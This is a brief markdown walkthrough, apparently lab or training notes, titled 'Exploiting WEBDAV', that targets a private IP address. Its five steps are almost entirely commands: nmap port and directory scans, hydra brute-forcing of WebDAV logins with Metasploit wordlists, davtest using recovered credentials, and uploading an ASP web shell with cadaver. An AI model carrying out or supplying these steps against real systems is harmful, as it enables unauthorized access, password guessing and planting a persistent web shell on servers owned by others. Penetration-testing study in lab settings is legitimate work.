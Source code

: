 # Exploiting WEBDAV 

1. Scan the target to check for open ports.
```
nmap -sV -sC 10.5.16.84
```

2. Scan the target to check for the vulnerable `/webdav` directory.

```
nmap -sV -p80 --script=http-enum 10.5.16.84
```

3. Brute-force the credentials if there is a WEBDAV login required.

```
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/metasploit/common_passwords.txt 10.5.16.84 http-get /webdav/ 
```

4. Test the `/webdav` directory using a tool called `davtest` to check whether we can upload malicious ASP payload.

```
davtest -auth bob:password_123321 -url http://10.5.16.84/webdav/
```

5. Upload the ASP Payload using `cadaver`

```
cadaver http://10.5.16.84/webdav/
put /usr/share/webshells/asp/webshell.asp 
```


